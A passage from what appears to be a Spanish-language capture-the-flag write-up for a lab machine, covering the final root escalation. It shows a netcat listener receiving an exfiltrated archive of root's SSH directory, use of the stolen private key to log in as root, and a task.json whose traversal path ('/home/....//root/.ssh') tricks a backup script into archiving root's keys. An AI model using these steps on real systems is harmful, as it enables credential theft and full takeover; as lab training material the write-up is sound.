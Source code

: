 En nuestra máquina de forma inmediata recibiremos el archivo, recordemos que podemos verificar la integridad de éste con el comando `md5sum`

~~~ bash
nc -lvnp 4444 > ssh-root.tar.bz2
listening on [any] 4444 ...
connect to [10.10.14.188] from (UNKNOWN) [10.10.11.62] 38048
~~~


## Root Time

Descomprimiremos el archivo para ver su contenido, veremos el archivo de clave privada de `root`

~~~ bash
bzip2 -d ssh-root.tar.bz2
tar -xf ssh-root.tar
cd root/.ssh 

ls    
authorized_keys  id_rsa
~~~

Utilizaremos la clave privada de `root` para conectarnos sin proporcionar contraseña

~~~ bash
ssh root@10.10.11.62 -i id_rsa

root@code:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

Por último nos quedaría leer la flag ubicada dentro del directorio `/root`

~~~ bash
root@code:~# cat root.txt  
532...
~~~
<br>


## Bonus: Understanding `protected_regular`

Ocurre algo extraño cuando usamos el script `backy.sh` con un archivo `task.json` que guardamos en directorios como `/dev/shm` o `/tmp` (`world-writable` o de escritura global)

~~~ bash
martin@code:/tmp$ cat task.json 
{
	"destination": "/home/martin/backups/",
	"multiprocessing": true,
	"verbose_log": false,
	"directories_to_archive": [
		"/home/....//root/.ssh"
	],

	"exclude": [
	]
}
~~~
